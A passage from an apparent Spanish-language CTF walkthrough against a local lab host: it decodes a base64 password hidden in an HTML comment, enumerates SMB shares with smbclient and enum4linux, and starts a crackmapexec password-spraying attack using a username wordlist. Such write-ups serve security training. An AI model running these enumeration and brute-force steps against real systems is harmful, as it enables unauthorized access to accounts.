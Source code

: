 Revisando el codigo fuente en esta ruta:
```bash
http://172.17.0.2/galery.html
```

Tenemos lo siguiente una cadena en **base64**:
```bash
<!-- ZXN0b2VzdW5zZWNyZXRvCg== -->
```

Decodificamos la cadena:
```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d
```

Resultado: Tenemos una potencial password:
```bash
estoesunsecreto
```

En esta direccion **URL** tenemos un panel de inicio de sesion que nos pide un correo que no tenemos y un codigo para podernos loguear:

## Enumeracion de [Servicio SMB SAMBA]
Procedemos a enumerar este servicio. Listamos los servicios compartidos:
```bash
smbclient -L 172.17.0.2 -N

# Resultado
Sharename       Type      Comment
---------       ----      -------
sambashare      Disk      
IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

Ahora realizamos una enumeracion con esta herramienta:
```bash
enum4linux -S 172.17.0.2
```

Resultado:
```bash
[E] Can't understand response:

tree connect failed: NT_STATUS_BAD_NETWORK_NAME
//172.17.0.2/sambashare Mapping: N/A Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//172.17.0.2/IPC$       Mapping: N/A Listing: N/A Writing: N/A
enum4linux complete on Wed Jun  4 00:31:29 2025
```

Sabiendo que tenemos una posible password: **( estoesunsecreto )** realizaremos un ataque de fuerza bruta para ver si existe algun usuario con esa posible password:
```bash
crackmapexec smb 172.17.0.2 -u /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p passwd.txt
```
